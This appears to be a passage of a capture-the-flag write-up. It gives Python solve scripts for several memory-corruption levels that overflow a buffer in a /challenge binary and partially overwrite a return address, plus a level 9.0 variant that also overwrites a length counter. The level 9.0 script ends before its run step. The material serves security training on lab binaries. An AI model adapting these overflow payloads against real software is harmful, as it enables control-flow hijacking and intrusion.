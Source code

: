 ## Level 8.0

**script8.py**

```python
import os
import sys
import struct
import subprocess

challenge_dir = "/challenge"
file = os.path.join(challenge_dir, os.listdir(challenge_dir)[0])

buffer_size = int(sys.argv[1])
target_address = 0x2830

payload = b"A\x00" * (buffer_size)
target_struct = struct.pack("<H", target_address) # H 2byte; I 4byte
payload += target_struct
payload_len = len(payload)

def execute_attack():
    try:
        process = subprocess.Popen([file], stdin=subprocess.PIPE)
        input_data = f"{payload_len}".encode() + b"\n" + payload
        print(input_data)
        process.communicate(input=input_data)
    except Exception as e:
        print(f"error: {e}")

if __name__ == "__main__":
    print(f"Payload generato ({len(payload)} bytes).")
    print(f"Indirizzo di iniezione: {hex(target_address)}")
    execute_attack()
```

`python script8.py 36` run it until you get the fourth byte right (1 in 16 chance)

## Level 8.1

put `target_address = 0x2626`

`python script8.py 76` run it until you get the fourth byte right (1 in 16 chance)

## Level 9.0

**script9.py**

```python
import os
import sys
import struct
import subprocess

challenge_dir = "/challenge"
file = os.path.join(challenge_dir, os.listdir(challenge_dir)[0])

buffer_size = int(sys.argv[1])
target_address = 0x2a6c

payload = b"A" * 32
payload += struct.pack("<B", (buffer_size - 1)) # - 1 because n updates itself when overwritten
target_struct = struct.pack("<H", target_address) # H 2byte; I 4byte
payload += target_struct
payload_len = buffer_size + 2
```